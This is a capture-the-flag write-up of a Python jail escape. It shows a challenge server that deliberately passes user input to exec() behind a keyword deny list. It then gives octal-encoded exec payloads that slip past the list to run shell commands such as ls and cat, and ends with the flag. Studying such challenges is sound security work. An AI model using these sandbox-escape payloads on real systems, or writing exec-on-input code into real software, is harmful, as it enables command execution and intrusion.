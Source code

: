 # I Want to Break Free

by HexPhoenix

I want to break free... from this Python jail. nc 143.198.184.186 45457

## Analysis

In this challenge we were given a zip file named `jailpublic.zip`. It contains 2 files, `blacklist.txt` and `jail.py`.

#### jail.py

```python
#!/usr/bin/env python3

#!/usr/bin/env python3

def server():
    message = """
    You are in jail. Can you escape?
"""
    print(message)
    while True:
        try:
            data = input("> ")
            safe = True
            for char in data:
                if not (ord(char)>=33 and ord(char)<=126):
                    safe = False
            with open("blacklist.txt","r") as f:
                badwords = f.readlines()
            for badword in badwords:
                if badword in data or data in badword:
                    safe = False
            if safe:
                print(exec(data))
            else:
                print("You used a bad word!")
        except Exception as e:
            print("Something went wrong.")
            print(e)
            exit()

if __name__ == "__main__":
    server()
```

It seems that the program will execute if it doesn't contains any string in `blacklist.txt`. So, let's take a look at `blacklist.txt`.

#### blacklist.txt

```
cat
grep
nano
import
eval
subprocess
input
sys
execfile
builtins
open
dict
exec
for
dir
file
input
write
while
echo
print
int
os
```

Since the blacklist didn't contains "exec", so we could use it to our advantages. To make it difficult to read by python, we could use another way to interpret the character. For example we can try to use octal here so the python wouldn't detect it as the string they backlisted. (Reference: [bypass-python-sandboxes](https://book.hacktricks.xyz/misc/basic-python/bypass-python-sandboxes)).

First we need to read or list what is inside the directory.
```python
exec("\137\137\151\155\160\157\162\164\137\137\50\47\157\163\47\51\56\163\171\163\164\145\155\50\47\154\163\47\51")
```
If we convert those octal number to string, it will turns into: `__import__('os').system('ls')`.

![](iwanttobreakfree(ls).png)
There is `cf7728be7980fd770ce03d9d937d6d4087310f02db7fcba6ebbad38bd641ba19.txt` inside the directory and I think that may be the flag.

Convert our payload into ocal again and wrap it with exec(""). Now we use this payload to read the flag `"__import__('os').system('cat cf7728be7980fd770ce03d9d937d6d4087310f02db7fcba6ebbad38bd641ba19.txt')"`.

Payload:
```python
exec("\137\137\151\155\160\157\162\164\137\137\50\47\157\163\47\51\56\163\171\163\164\145\155\50\47\143\141\164\40\143\146\67\67\62\70\142\145\67\71\70\60\146\144\67\67\60\143\145\60\63\144\71\144\71\63\67\144\66\144\64\60\70\67\63\61\60\146\60\62\144\142\67\146\143\142\141\66\145\142\142\141\144\63\70\142\144\66\64\61\142\141\61\71\56\164\170\164\47\51")
```

Now all we need to do is just send the payload into the program
![](iwanttobreakfree(cat).png)

Flag: `kqctf{0h_h0w_1_w4n7_70_br34k_fr33_e73nfk1788234896a174nc}`
